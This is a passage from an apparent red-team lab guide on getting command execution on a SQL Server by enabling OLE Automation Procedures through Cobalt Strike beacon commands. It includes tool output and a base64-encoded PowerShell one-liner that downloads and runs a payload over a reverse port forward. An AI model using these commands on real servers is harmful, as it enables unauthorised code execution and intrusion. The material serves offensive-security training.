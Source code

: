 Check that OLE Automation is enabled.

```powershell
beacon> sql-query lon-db-1 "SELECT name,value FROM sys.configurations WHERE name = 'Ole Automation Procedures'"

[*] Connecting to lon-db-1:1433
[+] Successfully connected to database
[*] Executing custom query on lon-db-1

name | value | 
---------------
Ole Automation Procedures | 0 | 

[*] Disconnecting from server
```

And enable it using the `sql-enableole` command.

```powershell
beacon> sql-enableole lon-db-1

[*] Connecting to lon-db-1:1433
[+] Successfully connected to database
[*] Toggling Ole Automation Procedures on lon-db-1...

name | value_in_use | 
----------------------
Ole Automation Procedures | 1 | 

[*] Disconnecting from server
```

Then use `sql-olecmd` to run a command.  As previously stated, OLE cannot return output like xp_cmdshell can, so it's "limited" to executing one-liners.

```powershell
beacon> sql-olecmd lon-db-1 "cmd /c calc"

[*] Connecting to lon-db-1:1433
[+] Successfully connected to database
[*] OLE Automation Procedures is enabled
[*] Executing system command...

[*] Setting sp_oacreate to "lfdfjzuv"
[*] Setting sp_oamethod to "enijbgqg"
[*] Command executed
[*] Destoryed "lfdfjzuv" and "enijbgqg"

[*] Disconnecting from server```

One way to leverage this is to use a PowerShell one-liner to pull and execute a payload through a reverse port forward.  This is often required when exploiting servers because they're typically restricted from sending traffic outside of the network boundary.  Host a payload on Cobalt Strike's web server, e.g. via the scripted web delivery (**Attacks > Scripted Web Delivery**), and manually create a PowerShell one-liner to grab it through the reverse port forward.  For example:

```powershell
PS C:\Users\Attacker> $cmd = 'iex (new-object net.webclient).downloadstring("http://lon-wkstn-1:8080/b")'
PS C:\Users\Attacker>[Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes($cmd))
```
